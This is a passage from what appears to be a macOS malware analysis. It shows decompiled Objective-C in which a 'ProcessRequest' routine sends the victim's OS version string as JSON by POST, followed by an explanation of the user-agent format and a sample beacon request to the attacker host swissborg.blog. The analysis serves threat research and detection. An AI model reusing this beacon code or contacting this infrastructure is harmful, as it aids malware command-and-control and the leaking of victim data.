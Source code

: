     rax = [rax retain];
    rbx = rax;
    [rax setHTTPMethod:@"POST"];
    [rbx setValue:@"application/json" forHTTPHeaderField:@"Content-Type"];
    rax = [NSString stringWithFormat:@"{\"sdf\":\"wsx\",\"info\":\"%@\"}", r15];
    rax = [rax retain];
    var_38 = rax;
    rax = [rax dataUsingEncoding:0x4];
    rax = [rax retain];
    var_30 = rax;
    [rbx setHTTPBody:rax];
    rax = [NSURLSession sharedSession];
    rax = [rax retain];
    r13 = [[rax dataTaskWithRequest:rbx completionHandler:^ {/* block implemented at ___29-[ProcessRequest sendRequest]_block_invoke */ } }] retain];
    [rax release];
    [r13 resume];
    [r13 release];
    return;
}
                        
                    





This POST request uses the NSURLSession class to generate the user-agent in the following format.






                        
                            <AppName>/<AppVersion> CFNetwork/<CFNetworkVersion> Darwin/<DarwinVersion>
                        
                    





 AppName: The name of the app derived from the CFBundleName key in the app's Info.plist. In the case where the executable is not run as part of an app bundle (which we suspect to be the case), this value gets set to the name of the executable. AppVersion: The version of the app obtained from the CFBundleShortVersionString key in the app's Info.plist. In the absence of app-specific details it would be set to unknown version. CFNetworkVersion: The version of the CFNetwork framework used by the app. DarwinVersion: The version of Darwin or XNU kernel.  The HTTP POST data is constructed using the following JSON formatted string, {"sdf":"wsx","info":"operatingSystemVersionString"}, where operatingSystemVersionString will be replaced by the property value fetched from the processInfo object. Below is an example of the POST message being sent to the attacker server from the victim system.






                        
                            POST /zxcv/bnm HTTP/1.1
Host: swissborg.blog
Content-Type: application/json
Connection: keep-alive
Accept: */*
User-Agent: ProcessRequest (unknown version) CFNetwork/1410.0.3 Darwin/22.6.0
Content-Length: 51
Accept-Language: en-CA,en-US;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate
